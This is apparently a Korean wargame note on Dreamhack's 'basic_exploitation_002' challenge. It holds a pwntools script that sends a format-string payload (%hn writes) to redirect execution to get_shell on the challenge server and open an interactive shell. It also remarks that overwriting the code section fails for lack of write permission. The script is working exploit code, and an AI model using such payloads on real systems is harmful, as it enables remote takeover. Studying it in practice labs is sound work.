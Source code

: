 <br>

### 참고 `ex2.py` 처럼 코드 섹션을 Overwrite 하려고 하면 쓰기 권한이 없어서 안된다.

```py
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 10698)
elf = ELF("./basic_exploitation_002")

get_shell = elf.symbols['get_shell']
# get_shell = 0x08048609  # 134514185

addr_exit = 0x8048648  # exit 함수가 실행되는 코드 섹션의 주소

# 0x0804 = 2052
# 0x8609 = 34313
payload = b"%2052c%7$hn"        # 0x0804 = 2052 : 길이 11bytes
payload += b"%32261c%8$hn"      # 0x8609 = 34313 (34313 - 2052 = 32261) : 길이 12byte
payload += b"a"                 # 24bytes로 맞추기 위해 1bytes 추가
payload += p32(addr_exit + 2)   # 여기까지 28바이트 차지
payload += p32(addr_exit)

p.send(payload)
p.interactive()
```